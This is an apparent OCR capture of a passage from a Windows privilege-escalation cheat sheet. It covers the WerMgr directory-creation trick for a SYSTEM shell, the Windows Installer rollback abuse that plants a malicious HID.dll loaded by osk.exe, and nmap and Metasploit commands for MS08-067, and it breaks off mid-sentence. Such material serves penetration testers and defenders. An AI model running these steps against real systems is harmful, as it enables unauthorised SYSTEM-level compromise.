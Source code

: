 ### WerMgr

> Exploit Privileged Directory Creation Bugs with Windows Error Reporting

1. Clone https://github.com/binderlabs/DirCreate2System
2. Create directory `C:\Windows\System32\wermgr.exe.local\`
3. Grant access to it: `cacls C:\Windows\System32\wermgr.exe.local /e /g everyone:f`
4. Place `spawn.dll` file and `dircreate2system.exe` in a same directory and run `.\dircreate2system.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**

## EoP - Privileged File Delete

During an MSI installation, the Windows Installer service maintains a record of every changes in case it needs to be rolled back, to do that it will create:

- a folder at `C:\Config.Msi` containing
    - a rollback script (`.rbs`)
    - a rollback file (`.rbf`)

To convert a privileged file delete to a local privilege escalation, you need to abuse the Windows Installer service. * delete the protected `C:\Config.Msi` folder immediately after it's created by the Windows Installer * recreate the `C:\Config.Msi` folder with weak DACL permissions since ordinary users are allowed to create folders at the root of `C:\`. * drop malicious `.rbs` and `.rbf` files into it to be executed by the MSI rollback * then upon rollback, Windows Installer will make arbitrary changes to the system

The easiest way to trigger this chain is using [thezdi/FilesystemEoPs/FolderOrFileDeleteToSystem](https://github.com/thezdi/PoC/tree/master/FilesystemEoPs/FolderOrFileDeleteToSystem). The exploit contains a .msi file with 2 actions, the first one produces a delay and the second throws an error to make it rollback. This rollback will "restore" a malicious HID.dll in `C:\Program Files\Common Files\microsoft shared\ink\HID.dll`.

Then switch to the secure desktop using `[CTRL]+[ALT]+[DELETE]` and open the On-Screen Keyboard (`osk.exe`). The `osk.exe` process first looks for the `C:\Program Files\Common Files\microsoft shared\ink\HID.dll` library instead of `C:\Windows\System32\HID.dll`

## EoP - Common Vulnerabilities and Exposure

### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.

```
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>
```

Metasploit modules to exploit `MS08-067 NetAPI`.

```
exploit/windows/smb/ms08_067_netapi
```

If you can't use Metasploit and only want a reverse shell.
